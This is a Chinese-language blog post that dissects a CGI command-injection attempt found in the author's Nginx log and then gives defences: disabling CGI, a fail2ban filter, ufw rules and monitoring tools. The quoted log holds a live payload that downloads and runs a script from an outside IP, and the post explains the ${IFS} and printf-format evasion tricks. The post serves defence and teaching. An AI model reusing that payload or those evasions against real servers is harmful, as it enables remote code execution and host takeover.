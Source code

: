 ```yaml
---
slug: cgi-injection-log-analysis
title: CGI 攻擊的技術側寫
authors: Z. Yuan
image: /img/2025/0430.jpg
tags: [security, fail2ban, ufw, log-analysis]
description: 剖析 CGI 命令注入攻擊的手法、風險與預防策略。
---
```


我的主機又被攻擊了。

這一天天的，這個世界果然充滿惡意。

<!-- truncate -->

## 什麼是 CGI？

Common Gateway Interface（CGI）是個誕生於 1993 年的老古董。當時靜態網頁是主流，CGI 被視為能實現「動態內容」的黑科技。

它的運作方式簡單粗暴：

1. 瀏覽器送出 HTTP 請求。
2. Web 伺服器一看路徑落在 `/cgi-bin/`，就知道要「搞點事」。
3. 於是它把 Query String、Header 等資訊塞進一堆環境變數。
4. 然後 fork 出一個外部程式（如 Perl、Bash、C），直接吃那些變數。
5. 程式用 STDOUT 輸出 HTTP 回應。
6. 結束後關閉行程，等下一個請求再重新開一隻。

優點是萬用：任何語言都能寫，只要能在 OS 上執行。

缺點則滿地都是：

- 一請求一行程，效能低落，主機壓力大。
- 環境變數毫無防備，易遭命令注入。
- 可執行檔直接放公開路徑，形同裸奔。
- 行程權限等同 Web Server，用戶一疏忽，攻擊者就能橫行。

如今，CGI 已被 PHP-FPM、FastCGI、WSGI 等更安全、效能更好的架構取代。

但它仍在一些舊系統中倖存，並成為攻擊者的狩獵場。

## 攻擊徵兆

我在日常排查 Nginx 的 error log 時，發現以下異狀：

```log
2025-04-28 14:21:36,297 fail2ban.filter [1723]: WARNING Consider setting logencoding…

b'2025/04/28 14:21:36 [error] 2464#2464: *7393

open() "/usr/share/nginx/html/cgi-bin/mainfunction.cgi/apmcfgupload"
failed (2: No such file or directory),

client: 176.65.148.10,
request: "GET /cgi-bin/mainfunction.cgi/apmcfgupload?session=xxx…0\xb4%52$c%52$ccd${IFS}/dev;wget${IFS}http://94.26.90.205/wget.sh;${IFS}chmod${IFS}+x${IFS}wget.sh;sh${IFS}wget.sh HTTP/1.1",
referrer: "http://xxx.xxx.xxx.xxx:80/cgi-bin/…"\n'
```

請注意這段：

```log
wget${IFS}http://94.26.90.205/wget.sh;
```

這不是 typo，而是**赤裸裸的命令注入**。

攻擊者利用 CGI 的參數欄位，意圖執行以下流程：

1. 下載 `wget.sh`。
2. 賦予執行權限。
3. 立即執行腳本。

這類惡意腳本內容五花八門，常見行為包括：

- 新增後門帳號、植入 SSH Key。
- 投放挖礦程式（如 `xmrig`、`kdevtmpfs`）。
- 修改 crontab，確保重開機自動復活。
- 關閉防火牆與安全監控。

一旦中招，你的主機可能會比你還努力打工，而收益流向別人的錢包。

## 攻擊手法拆解

這類攻擊一般分為以下幾步：

- **掃描**：`GET /cgi-bin/*.cgi`，瘋狂亂槍打鳥，看能不能找到還活著的 CGI。
- **注入**：利用 `%52$c`、`${IFS}` 等技巧，繞過輸入過濾與字串比對。
- **下載**：`wget http://...` 抓惡意腳本，多數架在裸機或遭入侵的主機。
- **落地**：`chmod +x && sh`，權限放寬，立即執行，一氣呵成。

這裡補充兩個常見技巧：

- `%52$c`：`printf` 格式化技法，原本設計來操作堆疊，雖然本例未觸及 overflow，但已能避開單純關鍵字比對。
- `${IFS}`：Bash 中的 Internal Field Separator，預設是空白。將空白寫成 `${IFS}`，就能逃過許多只針對空格過濾的防線。

## 防禦策略

沒有萬無一失的防線，但能讓攻擊者繞遠路、走冤枉路，風險就能大幅降低。

### 1. 關閉 CGI 模組

```bash
# Apache 範例
sudo a2dismod cgi
sudo a2dismod php7.4

# nginx 原生不支援 CGI，千萬別多裝 fcgiwrap
```

### 2. 設定通報機制

```bash title="/etc/fail2ban/filter.d/nginx-cgi.conf"
[Definition]
failregex = <HOST> -.*GET .*cgi-bin.*(;wget|curl).*HTTP
ignoreregex =
```

```ini title="/etc/fail2ban/jail.d/nginx-cgi.local"
[nginx-cgi]
enabled  = true
port     = http,https
filter   = nginx-cgi
logpath  = /var/log/nginx/error.log
maxretry = 3
bantime  = 6h
action   = %(action_mwl)s   # 包含 email 通知 + whois 查詢 + 日誌摘要
```

### 3. 基礎防火牆配置

```bash
sudo ufw default deny incoming
sudo ufw allow 22/tcp comment 'SSH'
sudo ufw allow 80,443/tcp comment 'Web'
sudo ufw enable
```

不要忽略 IPv6，也要一併設限。

### 4. 系統監控

| 功能                 | 工具名                   | 安裝方式               |
| -------------------- | ------------------------ | ---------------------- |
| 即時監控與告警       | **Netdata**              | `apt install netdata`  |
| Log 分析與流量視覺化 | **GoAccess**             | `apt install goaccess` |
| SOC 防禦框架         | **Wazuh** / **CrowdSec** | 官方安裝腳本           |

- **CrowdSec**：像是 Fail2Ban 進化版，具備社群黑名單與 firewall-bouncer 插件。
- **Wazuh**：OSSEC 增強版，結合 Elastic Stack 提供完整視覺化儀表板。

## 結語

沒發現異常，不代表真的沒事。

唯有建立觀察基準、定期查看日誌，才能在異常發生時第一時間發現並處置。

這次的 CGI 攻擊「沒有成功」，並不是因為對手技術拙劣，而是我剛好多做了幾步：關閉模組、設好防火牆、配置好 Fail2Ban。

> **資安的本質從來不是「你是不是目標」，而是「你是不是暴露在風險裡」。**

連上網路那一刻起，每台主機都默默參加了這場全球掃描樂透，要想不中獎，不能只靠運氣，也得靠日常的準備與警覺。

這次，不速之客遠道而來，我剛好醒著，也剛好鎖了門。

但願你也是。
